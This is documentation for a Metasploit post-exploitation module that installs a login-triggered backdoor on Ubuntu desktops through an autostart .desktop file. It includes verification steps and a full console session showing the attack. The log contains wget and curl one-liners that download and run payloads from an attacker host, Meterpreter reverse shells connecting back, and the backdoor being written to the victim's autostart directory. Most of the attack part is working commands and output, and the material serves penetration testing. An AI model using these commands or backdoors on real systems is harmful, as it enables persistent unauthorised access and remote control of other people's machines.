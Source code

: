## Vulnerable Application

This module will create an autostart `.desktop` entry to execute a payload.
The payload will be executed when the users logs in.

Verified on Ubuntu 22.04 desktop with Gnome, and 18.04.3.
The following payloads were used in testing:
- `cmd/unix/reverse_netcat`
- `linux/x64/meterpreter/reverse_tcp`
- `cmd/linux/http/x64/meterpreter/reverse_tcp`

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/autostart`
3. `set SESSION <id>`
4. `exploit`

When the victim logs in, your payload will be executed!

## Options

### BACKDOOR_NAME

Name of autostart entry. Defaults to a randomly generated name

### PAYLOAD_NAME

Name of the payload file to write. Defaults to a randomly generated name

### USER

User to target, or current user if blank

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO FWdHRs3A --no-check-certificate http://111.111.1.111:8181/l; chmod +x FWdHRs3A; ./FWdHRs3A& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.222    web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:57884) at 2025-02-06 17:03:03 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/autostart 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/autostart) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/autostart) > exploit
[*] Command to run on remote host: curl -so ./xcsqfBQnCfcm http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./xcsqfBQnCfcm;./xcsqfBQnCfcm&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/autostart) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Xorg is installed, possible desktop install.
[!] Payloads in /tmp will only last until reboot, you may want to choose elsewhere.
[*] Making sure the autostart directory exists
[*] Uploading autostart file /home/ubuntu/.config/autostart/bHOXeW.desktop
[+] Backdoor will run on next login by ubuntu
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250206.0326/ubuntu18desktop.local_20250206.0326.rc
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
```

Login via gui

```
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:44316) at 2025-02-06 17:03:50 -0500
[msf](Jobs:2 Agents:2) exploit(linux/persistence/autostart) > 
```